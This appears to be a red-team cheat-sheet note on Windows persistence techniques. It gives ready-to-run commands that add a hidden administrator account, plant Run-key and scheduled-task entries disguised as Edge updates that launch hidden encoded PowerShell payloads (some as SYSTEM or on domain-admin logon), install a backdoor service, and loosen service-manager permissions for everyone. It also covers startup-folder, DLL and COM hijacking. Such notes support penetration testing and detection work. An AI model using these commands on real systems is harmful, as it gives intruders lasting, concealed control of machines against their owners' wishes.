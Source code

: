 ```yaml
---
title: Windows Persistence
---
```


[[notes/mitre-attack/persistence]] on [[notes/windows/index]].

References:

- [Persistence techniques detected by PersistenceSniper](https://github.com/last-byte/PersistenceSniper/wiki/3-%E2%80%90-Detections)
- [UWP / Packaged Desktop Application Startup Persistence](https://github.com/nasbench/Misc-Research/blob/main/Other/UWP-Applications-Persistence.md)

# Account Creation

~~~ bat
net.exe user hacker P@ssw0rd1234 /add
net.exe localgroup administrators hacker /add
~~~

Untested tools:

- [CreateHiddenAccount](https://github.com/wgpsec/createhiddenaccount)

# Startup Folder

As unprivileged user write an executable or LNK file into the autostart folder at `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\` or as local admin at `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\`.
It will be executed on logon in the users context.

`grpconv.exe` can be used to create files inside the autostart folder ([Source](https://mobile.twitter.com/cyb3rops/status/1526952076940652546)).

First write `%userprofile%\setup.ini`:

~~~
[progman.groups]
group001=Startup

[group001]
"FILENAME",PROGRAM,ICON,0,UNKNOWN,UNKNOWN,UNKNOWN
"Relative Calculator",calc.exe,calc.exe,0,,,
"Absolute Calculator",C:\Windows\System32\calc.exe,C:\Windows\System32\calc.exe,0,,,
"Calculator over CMD",cmd /c calc,calc.exe,0,,,
~~~

Then execute `grpconv.exe -o` to create the entry.

> **Note:**
> It is possible to use some environment variables in the *PROGRAM* field.
> For example `%comspec%` works, but `%userprofile%` doesn't, because `C:\` gets prepended somehow.

References:

- [persistence-info.github.io/data/startupfolder.html](https://persistence-info.github.io/Data/startupfolder.html)

# Registry Autorun Keys

As unprivileged user execute a command when the user logs in.

=== "builtin"
    ~~~ bat
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    reg.exe add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

As local admin execute a command when any user logs in (in the users context).

=== "builtin"
    ~~~ bat
    reg.exe add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%"
    ~~~

References:

- [persistence-info.github.io/data/run.html](https://persistence-info.github.io/Data/run.html)

# Scheduled Task

As unprivileged user execute a command every hour.

=== "[[notes/tools/sharpersist]]"
    ~~~ bat
    .\SharPersist.exe -t schtask -n "MicrosoftEdgeUpdateTaskMachine" -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-w hidden -noni -nop -e %PAYLOAD%" -o daily -m add
    ~~~

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc daily
    ~~~

As local admin execute a command on boot.

=== "bulitin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onstart /ru "NT Authority\SYSTEM" /rl highest
    ~~~

As local admin, execute a command when a member of a high value group logs in.

=== "builtin"
    ~~~ bat
    schtasks.exe /create /tn "MicrosoftEdgeUpdateTaskMachine" /tr "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -noni -nop -ep bypass -e %PAYLOAD%" /sc onlogon /ru "corp.local\domain admins" /rl highest
    ~~~

Remove a scheduled task.

=== "builtin"
    ~~~ bat
    schtasks.exe /delete /tn "MicrosoftEdgeUpdateTaskMachine" /f
    ~~~

References:

- [persistence-info.github.io/data/taskscheduler.html](https://persistence-info.github.io/Data/taskscheduler.html)

# Service

Create a service as local admin.

=== "builtin"
    ~~~ bat
    sc.exe create XboxNetApi binPath= "C:\Program Files\Vendor\Backdoor.exe" start= auto
    sc.exe start XboxNetApi
    ~~~

As local admin allow everybody to create a service that runs as `system` ([source](https://twitter.com/0gtweet/status/1628720819537936386)).

=== "builtin"
    ~~~ bat
    sc.exe sdset scmanager D:(A;;KA;;;WD)
    ~~~

References:

- [persistence-info.github.io/data/services.html](https://persistence-info.github.io/Data/services.html)

# WMI Event Subscription

Under construction 🚧

# DLL Hijacking

For example as local admin on a Windows Server write `wlanapi.dll` anywhere into the system `PATH`, then trigger NetMan from an interactive session trough COM ([source](http://web.archive.org/web/20230629210511/https://itm4n.github.io/windows-server-netman-dll-hijacking/)).
This is also applicable to regular users.

# COM Hijacking

Register a missing class as regular user.

Untested tools:

- [COM-Hunter](https://github.com/nickvourd/COM-Hunter), automates COM hijacking

References:

- [Persistence: Component Object Model (COM) hijacking](http://web.archive.org/web/20230927041600/https://stmxcsr.com/persistence/com-hijacking.html)
- [Hunting for COM Hijacks](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/38149212-hunting-for-com-hijacks)
- [COM Hijacking for Persistence](http://web.archive.org/web/20230320120052/https://cyberstruggle.org/2021/12/14/com-hijacking-for-persistence/)
- [Persistence - COM Hijacking](http://web.archive.org/web/20230208031319/https://pentestlab.blog/2020/05/20/persistence-com-hijacking/)
- [COM Hijacking candidate CLSIDs](https://gist.github.com/mgeeky/7d2f8363f5e8961daa51b56869101a8a)

# Printer Configuration

Requires local admin rights.

References:

- [Persistence and Privilege Escalation on Windows via Print Monitors](http://web.archive.org/web/20231215103114/https://stmxcsr.com/persistence/print-monitor.html)
- [Persistence and Privilege Escalation on Windows via Print Processors](http://web.archive.org/web/20230927045919/https://stmxcsr.com/persistence/print-processor.html)

# Remote Management Tools

Install one of the many remote management tools like TeamViewer or AnyDesk as local admin.

References:

- [rmm.csv](https://github.com/0x706972686f/RMM-Catalogue/blob/main/rmm.csv)
- [Analysis on legit tools abused in human operated ransomware](http://web.archive.org/web/20230901192802/https://jsac.jpcert.or.jp/archive/2023/pdf/JSAC2023_1_1_yamashige-nakatani-tanaka_en.pdf)
